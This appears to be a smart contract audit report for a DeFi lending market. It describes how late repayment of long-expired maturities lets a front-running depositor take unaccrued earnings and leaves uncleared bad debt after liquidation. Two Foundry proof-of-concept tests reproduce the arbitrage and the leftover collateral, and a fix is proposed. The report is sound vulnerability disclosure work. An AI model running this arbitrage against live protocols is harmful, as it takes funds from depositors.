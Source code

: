 Warm Cinnabar Lion

high

# Expired maturities longer than `FixedLib.INTERVAL` with unaccrued earnings may be arbitraged and/or might lead to significant bad debt creation

## Summary

`Market::totalAssets()` only accounts for the unassigned earnings of maturities that are in the future or during the past interval. Thus, if a maturity is repaid which was due more than 1 `INTERVAL`, `totalAssets()` will not account for it. This will impact users due to arbitrage and create bad debt during liquidations as collateral will be leftover, making it impossible to clean the bad debt.

## Vulnerability Detail

`Market::totalAssets()` includes the unassigned earnings up to `block.timestamp - (block.timestamp % FixedLib.INTERVAL);`, disregarding past maturities.

`Market::repayAtMaturity()` will convert into `floatingAssets` the past unassigned earnings, no matter how late the repayment is.

This discrepancy allows attackers to arbitrage the `Market` with minimal exposure (by sandwiching) the repayment.

Possible worse, it will lead to a lot of bad debt creation, as liquidations preview the `seizeAvailable` of a liquidatee in `Auditor::checkLiquidation()`, but the actual collateral balance of the user will be bigger due to the unaccrued earnings being converted to `floatingAssets`.

The following 2 POCs demonstrate both scenarios, add the tests to `Market.t.sol`:
```solidity
function test_POC_expired_maturities_LeftoverCollateral() external {
  uint256 maturity = FixedLib.INTERVAL * 2;
  uint256 assets = 10_000 ether;
  ERC20 asset = market.asset();
  deal(address(asset), ALICE, 2*assets);

  // ALICE deposits and borrows at maturity
  vm.startPrank(ALICE);
  market.deposit(assets, ALICE);
  market.borrowAtMaturity(maturity, assets*78*78/100/100, type(uint256).max, ALICE, ALICE);
  vm.stopPrank();

  skip(2*maturity);

  // BOB deposits just to clear earnings accumulator and floating debt,
  // which would impact calculations. The discrepancy in totalAssets()
  // will be only due to floatingAssets increase by repaying maturities
  // It also deposits collateral to pay the liquidator
  vm.prank(BOB);
  market.deposit(assets, BOB);

  // ALICE has more debt than collateral, so all collateral should be seized
  (uint256 aliceAssets, uint256 aliceDebt) = market.accountSnapshot(ALICE);
  assertGt(aliceDebt, aliceAssets);

  address liquidator = makeAddr("liquidator");
  deal(address(asset), liquidator, 100_000 ether);
  vm.startPrank(liquidator);
  asset.approve(address(market), type(uint256).max);
  market.liquidate(ALICE, type(uint256).max, market);
  vm.stopPrank();

  // ALICE has leftover shares due to the floating assets increase
  // when paying the due maturity, so some debt will never be repaied
  (aliceAssets, aliceDebt) = market.accountSnapshot(ALICE);
  assertEq(aliceAssets, 46671780821917806592); // 46e18 assets
  assertEq(aliceDebt, 4005059259761449851306); // 4005e18 debt
}


function test_POC_expired_maturities_may_be_arbitraged() external {
  uint256 maturity = FixedLib.INTERVAL * 2;
  uint256 assets = 10_000 ether;
  ERC20 asset = market.asset();
  deal(address(asset), ALICE, 2*assets);

  // ALICE deposits and borrows at maturity
  vm.startPrank(ALICE);
  market.deposit(assets, ALICE);
  market.borrowAtMaturity(maturity, assets*78*78/100/100, type(uint256).max, ALICE, ALICE);
  vm.stopPrank();

  skip(maturity + FixedLib.INTERVAL + 1);

  // BOB frontruns ALICE's repayment
  vm.prank(BOB);
  uint256 bobShares = market.deposit(assets, BOB);

  // ALICE Repays, accruing the unassigned earnings to floating assets
  vm.prank(ALICE);
  market.repayAtMaturity(maturity, type(uint256).max, type(uint256).max, ALICE);

  // BOB got free assets
  assertEq(market.previewRedeem(bobShares), 10046671780821917806594);
}
```

## Impact

Risk free arbitrage by attackers and significant bad debt creation which may not be cleared on liquidations.

## Code Snippet

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L478-L479
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L786
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L929-L941
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Auditor.sol#L219
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Auditor.sol#L248

## Tool used

Manual Review

Vscode

Foundry

## Recommendation

Convert the unaccrued earnings to `earningsAccumulator` instead of directly to floating assets. In `Market::totalAssets()`, remove the section of previewing unaccrued earnings, as they will go through the `earningsAccumulator` and can not be arbitraged.